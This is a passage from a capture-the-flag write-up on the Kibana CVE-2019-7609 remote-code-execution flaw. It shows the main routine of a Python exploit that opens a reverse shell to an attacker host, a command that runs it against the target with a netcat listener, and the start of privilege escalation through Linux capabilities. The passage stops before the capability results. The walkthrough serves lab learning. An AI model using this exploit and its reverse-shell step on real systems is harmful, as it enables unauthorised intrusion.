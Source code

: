 ```python
    target = args.url
    remote_host = args.remote_host
    remote_port = args.remote_port
    is_reverse_shell = args.reverse_shell

    target = target.rstrip('/')
    if "://" not in target:
        target = "http://" + target
    try:
        version = get_kibana_version(target)
        result = verify(target)
        if result:
            print("[+] {} maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability".format(target))
            if is_reverse_shell:
                result = reverse_shell(target, remote_host, remote_port)
                if result:
                    print("[+] reverse shell completely! please check session on: {}:{}".format(remote_host, remote_port))
                else:
                    print("[-] cannot reverse shell")
        else:
            print("[-] {} do not exists CVE-2019-7609 vulnerability".format(target))
    except Exception as e:
        print("[-] cannot exploit!")
        print("[-] Error on: \n")
        traceback.print_exc()
```

Which we can use as follows:

```bash
python2 -u http://$IP:6501 -host $MY_IP -port 9999 --shell
```

Alongside a netcat listener, and viola! We have a reverse shell!

---

### Escalating Priviledges

Now that we have access onto the box and the user flag, we can search for vunerabilities. The task very clearly indicates it has something to do with `capabilties`.
If you are unsure what capabilties are, `they are "special attributes in the Linux kernel that grant processes and binary executables specific privileges that are normally reserved for processes whose effective user ID is 0 (The root user, and only the root user, has UID 0)."`

We can find capabilties which a simple command in linux:

```bash
getcap -r / 2>/dev/null
```

Which yields
